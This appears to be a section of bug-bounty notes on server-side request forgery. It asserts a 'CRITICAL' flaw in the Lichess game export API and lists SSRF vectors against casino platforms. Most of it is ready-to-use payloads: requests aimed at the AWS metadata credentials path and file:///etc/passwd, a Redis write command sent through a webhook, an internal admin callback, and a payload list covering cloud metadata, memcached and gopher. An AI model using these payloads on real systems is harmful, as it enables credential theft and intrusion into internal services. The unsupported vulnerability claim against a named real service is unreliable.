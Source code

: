 
### 7. **SSRF (Server-Side Request Forgery)**

**Target:** Lichess Game Export API  
**Severity:** CRITICAL  
**CVSS:** 8.0+  
**Bounty:** $1,000-$5,000

**Vulnerability:**
```javascript
// Vulnerable endpoint
GET /api/games/export?players=https://internal-server/admin
```

**Casino Platform SSRF Vectors:**

1. **Avatar/Image Upload**
```javascript
POST /api/profile/avatar
{
  "imageUrl": "http://169.254.169.254/latest/meta-data/iam/security-credentials"
}
```

2. **Game Asset Loading**
```javascript
GET /api/game/load-asset?url=file:///etc/passwd
```

3. **Webhook Integration**
```javascript
POST /api/webhooks/test
{
  "url": "http://localhost:6379/",  // Redis
  "payload": "SET hacked true"
}
```

4. **Payment Gateway Callback**
```javascript
POST /api/payment/callback
{
  "notifyUrl": "http://127.0.0.1:8080/admin/users"
}
```

**SSRF Exploitation Checklist:**
```python
# Test payloads
payloads = [
    "http://127.0.0.1:80",
    "http://localhost:80",
    "http://169.254.169.254",  # AWS metadata
    "http://metadata.google.internal",  # GCP
    "http://[::1]:80",  # IPv6 localhost
    "file:///etc/passwd",
    "dict://localhost:11211/",  # Memcached
    "gopher://localhost:6379/",  # Redis
]
```

---